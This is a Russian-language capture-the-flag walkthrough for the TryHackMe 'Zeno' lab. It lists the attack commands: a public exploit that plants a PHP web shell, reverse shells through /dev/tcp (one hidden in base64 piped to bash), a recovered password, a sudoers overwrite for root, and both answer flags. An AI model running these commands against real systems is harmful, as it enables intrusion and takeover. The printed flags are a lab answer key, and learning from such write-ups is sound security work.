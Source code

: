 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Zeno](https://tryhackme.com/r/room/zeno) 

Всего 2 задания:
## Задание 1
Проведите тест на проникновение на уязвимой машине. Ваша конечная цель — стать пользователем root и получить два флага:

`/home/{{user}}/user.txt
/root/root.txt`
Флаги всегда имеют один и тот же формат, где XYZ — это хеш MD5 : THM {XYZ}

Полная загрузка компьютера может занять некоторое время, поэтому, пожалуйста, наберитесь терпения! :)

### Ответьте на вопросы ниже
Виртуальная машина загружена!
```commandline
Ответ не нужен
```

## Задание 2
Yдачи!
### Ответьте на вопросы ниже
Содержимое user.txt
```commandline
nmap -sSCV -p- <IP>
gobuster dir -u http://<IP>:12340/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
searchsploit Restaurant Management System
python3 47520.py http://<IP>:12340/rms/
http://<IP>:12340/rms/images/reverse-shell.php/?cmd=id
sh -i >& /dev/tcp/ <my_own_IP>/4444 0>&1
echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xNC4xNC43OC84MCAwPiYxCg==|base64 -d|bash
nc -nvlp 4444
cat config.php
cat /etc/fstab
# username: zeno
# password: FrobjoodAdkoonceanJa
ssh edward@<IP>
ls
cat user.txt
```
```commandline
THM{070cab2c9dc622e5d25c0709f6cb0510}
```
Содержимое root.txt
```commandline
sudo -l
/bin/sh -c 'echo "edward ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
sudo /usr/sbin/reboot
sudo su
cat /root/root.txt
```
```commandline
THM{b187ce4b85232599ca72708ebde71791}
```
Получил доступ как пользователь root.
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)